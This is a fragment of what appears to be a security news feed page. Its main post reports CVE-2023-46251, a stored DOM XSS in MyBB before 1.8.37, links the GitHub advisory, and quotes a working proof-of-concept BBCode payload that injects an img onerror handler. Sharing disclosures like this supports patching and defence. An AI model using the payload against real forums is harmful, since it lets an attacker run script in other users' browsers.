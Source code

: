 📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# proxy_bar
`2023-11-06`

* https://github.com/mybb/mybb/security/advisories/GHSA-wj33-q7vj-9fr8

<blockquote>
CVE-2023-46251 - Stored DOM XSS
MyBB &lt; 1.8.37
usage:
[size&#61;'1337px;\&quot;&gt;&gt;\&lt;img/src&#61;ccc/ onerror&#61;alert`1`//id&#61;name //&amp;pt;']eviltext[/size]

UPD: impact
</blockquote>

![pic](pictures/ed3557f86218e7c59008268fabda5c1a9afacfbeb571a8c6fd2ed0dac6a59abe.jpg)

---

# cibsecurity
`2023-11-06`
